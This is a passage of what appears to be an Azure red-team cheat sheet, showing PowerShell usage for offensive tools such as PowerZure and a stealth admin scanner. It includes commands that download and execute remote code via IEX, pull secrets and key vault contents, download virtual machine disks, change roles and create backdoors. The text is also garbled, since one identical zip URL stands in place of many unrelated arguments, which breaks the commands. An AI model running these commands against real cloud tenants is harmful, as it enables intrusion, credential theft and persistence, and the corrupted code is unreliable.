     ```powershell
    $ git clone https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip
    $ powershell -ExecutionPolicy Bypass -NoProfile
    PS C> Import-Module .\https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip -force
    PS C> Start-AzureStealth

    or in the Cloud Console

    PS C> IEX (New-Object https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip).DownloadString('https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip')  
    PS C> Scan-AzureAdmins  
* **PowerZure** - 
    ```powershell
    require az module !
    $ git clone https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip
    $ ipmo .\PowerZure
    $ Set-Subscription -Id [idgoeshere]

    # Reader
    $ Get-Runbook, Get-AllUsers, Get-Apps, Get-Resources, Get-WebApps, Get-WebAppDetails

    # Contributor
    $ Execute-Command -OS Windows -VM Win10Test -ResourceGroup Test-RG -Command "whoami"
    $ Execute-MSBuild -VM Win10Test  -ResourceGroup Test-RG -File "https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip"
    $ Get-AllSecrets # AllAppSecrets, AllKeyVaultContents
    $ Get-AvailableVMDisks, Get-VMDisk # Download a virtual machine's disk

    # Owner
    $ Set-Role -Role Contributor -User https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip -Resource Win10VMTest
    
    # Administrator
    $ Create-Backdoor, Execute-Backdoor
    ```
    
## Enumeration

### Enumerate valid emails

> By default, O365 has a lockout policy of 10 tries, and it will lock out an account for one (1) minute.
